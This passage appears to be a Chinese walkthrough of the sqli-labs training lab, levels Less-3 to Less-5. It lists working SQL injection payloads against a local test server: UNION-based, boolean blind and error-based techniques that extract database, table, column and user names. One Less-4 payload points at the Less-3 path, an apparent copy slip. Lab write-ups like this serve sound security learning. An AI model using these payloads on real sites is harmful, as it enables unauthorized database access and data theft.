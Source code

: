 接着只需构造payload为`http://127.0.0.1/sqli/less-3/?id=-1') union select 1,database(),3--+
`，后续注入同Less-1和Less-2

***

**Less-4**

提交id=1，添加单引号页面正常，添加双引号报错为`syntax to use near '"1"") LIMIT 0,1' at line 1`，猜测后台查询语句为`select * from * where id = ("$id") LIMIT 0,1`

构造payload为`http://127.0.0.1/sqli/less-3/?id=-1") union select 1,database(),3--+`，后续注入同上

***

**Less-5**

提交id=1，显示`u are in`，知需要盲注

![](https://upload-images.jianshu.io/upload_images/11356161-f3eeee144856989d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

加单引号报错，知闭合为单引号

接下来可以构造payload进行基于bool的盲注

`http://127.0.0.1/sqli/less-5/?id=1' and mid(database(),1,1)='s'--+`，库名security第一位为's'，假如猜错则会无回显

![](https://upload-images.jianshu.io/upload_images/11356161-6776613802d4e765.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

慢慢试吧，写个脚本更方便

Bool-Based
`http://127.0.0.1/sqli/less-5/?id=1' and mid((select group_concat(schema_name) from information_schema.schemata),1,1)>'b'--+`

`http://127.0.0.1/sqli/less-5/?id=1' and mid((select table_name from information_schema.tables where table_schema='security' LIMIT 0,1),1,1)>'b'--+`

`http://127.0.0.1/sqli/less-5/?id=1' and mid((select column_name from information_schema.columns where table_name='users' LIMIT 0,1),1,1)>'b'--+`

`http://127.0.0.1/sqli/less-5/?id=1' and mid((select(username) from security.users where id=1),1,1)>'b'--+`

Wrong-Based
`http://127.0.0.1/sqli/less-5/?id=1' and(select 1 from(select count(*),concat((select (select (select concat(0x25,version(),0x25))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)--+`

`http://127.0.0.1/sqli/less-5/?id=1' union select 1,count(*),concat(0x25,database(),0x25,floor(rand(0)*2))a from information_schema.tables group by a--+`

`http://127.0.0.1/sqli/less-5/?id=1' union select 1,count(*),concat(0x25,(select schema_name from information_schema.schemata limit 0,1),0x25,floor(rand(0)*2))a from information_schema.schemata group by a--+`

`http://127.0.0.1/sqli/less-5/?id=1' union select 1,count(*),concat(0x25,(select  table_name from information_schema.tables where table_schema='security' limit 0,1),0x25,floor(rand(0)*2))a from  information_schema.tables  group by a--+`
